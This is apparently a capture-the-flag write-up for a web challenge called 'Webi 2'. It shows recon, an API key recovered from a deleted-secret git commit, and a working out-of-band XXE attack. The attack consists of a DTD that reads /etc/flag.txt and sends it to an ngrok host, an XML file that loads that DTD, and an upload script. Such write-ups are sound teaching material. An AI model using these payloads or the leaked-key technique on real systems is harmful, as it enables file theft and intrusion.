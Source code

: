 # Webi 2
```
You encounter an API that's still under development. Secret file is located in /etc/flag.txt, can you find out its content?
https://webi2.challenge.fi
```

Doing some recon will reveal us some useful information from specific endpoints:
- /api/:
    "This site is supposed to return APIKEY but it's not yet implemented.. For devs only for now!"
    "Senior dev said to read what .gitignore is before pushing the repo to github (I'll check this one later, gotta push it now!)"
- /info/:
    "Welcome to opensource project called challenge_multipurpose_api! The project is still in progress, but we hope you enjoy your stay!"

This information allows us to find out that the repository can be found on github [here](https://github.com/testingstuff0/generational-weather-xml-interface), and looking through the latest commit "deleted secret" allows us to get the API key `b13a6dc33a1e7819ce23a6`.

Most of the API endpoints aren't implemented, and only two endpoints seem relevant, `/save_xml/` and `/files/`, which are defined [here](https://github.com/testingstuff0/generational-weather-xml-interface/blob/f70ae735fd3609a8a94d0157ff9dfb9f6a4bf6ee/challenge2/api_stuff/views.py#L48-L145).

We can parse our own XML and upload DTDs, hinting that this is XXE. As we aren't able to get the response from the uploaded XML file, this is specifically Out-Of-Band XXE.

`payload.dtd`:
```xml
<!ENTITY % file SYSTEM "file:///etc/flag.txt">
<!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://[...].eu.ngrok.io/?flag=%file;'>">
%eval;
```

`payload.xml`:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo SYSTEM "http://[...].eu.ngrok.io/payload.dtd">
<foo>&exfil;</foo>
```

`exploit.py`:
```py
import requests

res = requests.post('https://webi2.challenge.fi/files/', headers = {
    'APIKEY': 'b13a6dc33a1e7819ce23a6',
}, files = {
    'file': open('payload.xml', 'rb'),
})
assert res.status_code == 200
```

Then we just need to setup the actual webserver which is extremely easy with python and ngrok:
```bash
└─$ ngrok http --scheme=http 8000
└─$ python3 -m http.server
```

Then running `exploit.py` will show in ngrok's dashboard us receiving the query param `R0VOWns2VU00YjRtUVJjdTNXVVlCfQ`, which decodes to the flag: `GENZ{6UM4b4mQRcu3WUYB}`.